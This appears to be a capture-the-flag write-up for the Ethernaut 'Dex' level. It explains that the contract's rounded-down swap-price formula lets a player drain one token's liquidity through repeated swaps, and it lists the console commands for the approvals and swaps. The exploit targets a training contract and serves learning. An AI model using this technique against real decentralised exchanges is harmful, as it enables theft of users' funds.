 # Drain 1 of the token and allow contract to report bad price

When we look at the contract, the price of the token is fetch from a math equation written inside the contract function.
```
  function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }
```
The equation can be summarized as:

```
Swap Amount = <AMOUNT_WE_SWAP> * <DEX_BALANCE_TOKEN_WE_WANT> / <DEX_BALANCE_TOKEN_WE_SEND>
```

The vulnerabiltiy is by getting swap price through this method, the division won't calculate to a perfect integer but a fraction. In solidity, division rounds towards zero. For example, `3/2 = 1`.

We can simulate how the balance would go if we swap them.

| DEX | PLAYER |
|-|-|
| TOKEN1 - TOKEN2 | TOKEN1 - TOKEN2 |
| 100 - 100 | 10 - 10 |
| 110 - 90 | 0 - 20 |
| 86 - 110 | 24 - 0 |
| 110 - 80 | 0 - 30 |
| 69 - 110 | 41 - 0 |
| 110 - 45 | 0 - 65 |
| 0 - 90 | 110 - 20 |

The table start out of by swapping 10 token1 to token2 on second row. The outcome is as expected, normal. However when we swap all token2 (20) to token1 we get 24. The ratio of token1 : token2 should be 1 : 1 yet we get 4 extra token. So if we keep on swapping till the end, we would reach a point where one of the DEX token run out of liquidity.

To continue to need to give approval to DEX to swap for us. Under the normal circumstances we would use this function.
```
contract.approve(contract.address, 500)
```

However in this contract, they require `owner != dex` when approving.
```
function approve(address owner, address spender, uint256 amount) public returns(bool){
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
```

So we need to try other way. By deploying the 'ERC20.sol' contract in remix IDE to token address, we can use 'ERC20.sol' `approve` our instance address and amount we let the DEX to access. After `approve`, use `allowance` function to call the targetted instance address and owner(our address). [link](https://stackoverflow.com/questions/71986811/ethernaut-challenge-lv22-dex-allowance-approval-problem)

After these steps we should be clear to swap. Go back to browser console terminal to get token address:
```
t1 = await contract.token1()
t2 = await contract.token2()
```

Perform the swaps according to table:
```
await contract.swap(t1, t2, 10)
await contract.swap(t2, t1, 20)
await contract.swap(t1, t2, 24)
await contract.swap(t2, t1, 30)
await contract.swap(t1, t2, 41)
await contract.swap(t2, t1, 45)
```

Verify:
```
await contract.balanceOf(t1, instance).then(v => v.toString())

// Output: '0'
```